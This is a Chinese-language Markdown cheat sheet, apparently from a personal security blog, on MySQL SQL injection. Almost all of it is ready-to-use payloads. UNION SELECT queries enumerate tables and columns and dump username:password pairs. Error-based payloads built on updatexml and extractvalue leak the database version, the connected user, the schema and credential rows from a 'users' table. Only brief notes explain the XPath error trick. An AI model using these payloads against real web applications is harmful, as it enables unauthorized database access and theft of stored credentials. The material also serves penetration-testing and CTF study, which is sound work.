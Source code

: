 ```yaml
---
author: 
  name: Zephyr
title: SQL注入
date: 2022-6-20 16:07:01
permalink: /pages/2e1547494524d1be
tags: 
  - web
  - SQLInject
---
```

# SQL注入

查表名

```mysql
union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema=database()
```



查字段名

```mysql
union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()
```



查数据

```mysql
union select 1,group_concat(username,":",password),3 from users
```



## 报错注入

### updatexml函数

updataxml函数用法

```mysql
UPDATEXML (XML_document, XPath_string, new_value);
```

第一个参数：`XML_document`是`String`格式，为`XML`文档对象的名称

第二个参数：`XPath_string` (Xpath格式的字符串) 

第三个参数：`new_value`，`String`格式，替换查找到的符合条件的数据

作用：改变文档中符合条件的节点

updatexml报错注入用法

查数据库的版本信息

```mysql
and updatexml(1,concat(0x7e,@@version,0x7e),1)%23
```

因为`concat()`是将其连接成一个字符串，不符合`xpath_string`格式，会出现格式错误而报错

查连接用户

```mysql
and updatexml(1,concat(0x7e,user(),0x7e),1)%23
```

查表

```mysql
and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=数据库的十六进制表示),0x7e),1)%23
```

```mysql
and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=0x7868) ,0x7e),1)%23
```

```mysql
and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)%23
```

查字段名

```mysql
and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name=库的十六进制表示 and table_schema=表的十六进制表示),0x7e),1)%23
```

```mysql
and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()),0x7e),1)%23
```

查数据

```mysql
and updatexml(1,concat(0x7e,(select concat_ws("~",列名) from 表名 limit 0,1),0x7e),1)%23
```

```mysql
and updatexml(1,concat(0x7e,(select concat_ws("~",id,username,password) from users limit 0,1),0x7e),1)%23
```

例子

```mysql
and updatexml(1,concat(0x7e,(select concat_ws("~",id,username,password) from users limit 0,1),0x7e),1)%23
```

### extractvalue函数

第一个参数：XML_document是String格式，为XML文档对象的名称

第二个参数：XPath_string (Xpath格式的字符串)

extractvalue报错注入用法

查数据库的版本信息

```mysql
and extractvalue(1,concat(0x7e,@@version,0x7e))%23
```

查表名

```mysql
and extractvalue(1,concat(0x7e,database(),0x7e))%23
```

查连接用户

```mysql
and extractvalue(1,concat(0x7e,user(),0x7e))%23
```

查表

```mysql
and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=数据库的十六进制表示),0x7e))%23
```

```mysql
and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=0x7868),0x7e))%23
```

```mysql
and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e))%23
```

查字段名

```mysql
and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name=库的十六进制表示 and table_schema=表的十六进制表示),0x7e))%23
```

```mysql
and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()),0x7e))%23
```

查数据

```mysql
and extractvalue(1,concat(0x7e,(select concat_ws("~",id,username,password) from users limit 0,1),0x7e))%23
```





